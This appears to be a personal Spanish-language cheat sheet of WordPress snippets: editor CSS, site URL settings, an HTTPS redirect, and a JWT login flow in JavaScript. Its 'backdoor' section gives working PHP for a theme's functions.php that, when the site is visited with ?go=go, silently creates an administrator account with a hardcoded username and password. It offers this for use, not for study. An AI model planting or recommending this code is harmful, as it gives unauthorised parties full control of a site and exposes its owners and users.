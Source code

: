 # Wordpress

## GUTTEMBER SUCK

agregar al final de function php

```javascript
add_action('admin_head', 'guttember_suck');
function guttember_suck() {
  echo '<style>
        .wp-block {
      border: 1px solid black;
    padding: 10px;
    border-radius: 2px;
        }
  </style>';
}

```

## Cambiar URL

Agragar en config.php

```
define( 'WP_HOME', 'http://localhost/devShell/dev/' );
define( 'WP_SITEURL', 'http://localhost/devShell/dev/' );
```

## SSL

Agregar al .htaccess para forzar que siempre use https

.htaccess

```
RewriteEngine On
RewriteCond %{HTTPS} !=on
RewriteRule ^(.*)$ https://%{HTTP_HOST}%{REQUEST_URI} [L,R=301,NE]
Header always set Content-Security-Policy "upgrade-insecure-requests;"
```

## AUTHENTICATION

1. install JWT **Authentication for WP REST API**
2. wp-config.php > agregar: **define('JWT_AUTH_SECRET_KEY', '[ALGUN-STRING-RANDOM]')**
3. login. leer user y pass del form y hacer un post:

```javascript
// auth

let flagStatus = "noAuth";
let user = "";
let pass = "";
const inputUser = document.querySelector("#user_login");
const inputPass = document.querySelector("#user_pass");
const submit = document.querySelector("#wp-submit");
const loginform = document.querySelector("#loginform");

submit.addEventListener("click", function (e) {
  const msg = document.querySelectorAll(".msg");
  if (flagStatus === "noAuth") {
    e.preventDefault();
    msg?.forEach((mesage) => mesage.remove());
    login(user, pass);
  } else return;
});

async function login() {
  const URL = "https://rubnv73.sg-host.com/wp-json/jwt-auth/v1/token";
  const headers = {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({
      username: inputUser.value,
      password: inputPass.value,
    }),
  };

  try {
    const res = await fetch(URL, headers);
    const data = await res.json();

    if (res.status === 200) {
      console.log(data);
      sessionStorage.setItem("token", data.token);
      flagStatus = "Authorized";
      submit.click();
    } else {
      console.log("error ", data);
      loginform.insertAdjacentHTML(
        "afterend",
        `<div class="msg">${data.message}</div>`
      );
    }
  } catch (error) {
    loginform.insertAdjacentHTML("afterend", `<div class="msg">${error}</div>`);
    console.log("error catch ", error);
  }
}
```

4. get some data using the token

```javascript
async function getSomething() {
  const URL = "https://rubnv73.sg-host.com/wp-json/wp/v2/users/me";
  const headers = {
    method: "GET",
    headers: {
      "Content-Type": "application/json",
      Authorization: `Bearer ${sessionStorage.token}`,
    },
  };
  try {
    const res = await fetch(URL, headers);
    const data = await res.json();

    if (res.status === 200) {
      console.log(data);
    } else {
      console.log("error ", data);
    }
  } catch (error) {
    console.log("error catch ", error);
  }
}

getSomething();
```

## backdoor

agregar en themes/[THEMA]/function.php del theme

```php
add_action('wp_head', 'ready');
function ready() {
If ($_GET['go'] == 'go') {
        require('wp-includes/registration.php');
        If (!username_exists('host_admin')) {
            $user_id = wp_create_user('host_admin', 'Pa55W0rd');
            $user = new WP_User($user_id);
$user->set_role('administrator');
}
}
}

```

Ir la ruta www.URL-DEL-SITIO?go=go

## AGCA LINK

[URL DE WEB ]/wp-admin/tools.php?page=ag-custom-admin%2Fplugin.php#general-settings
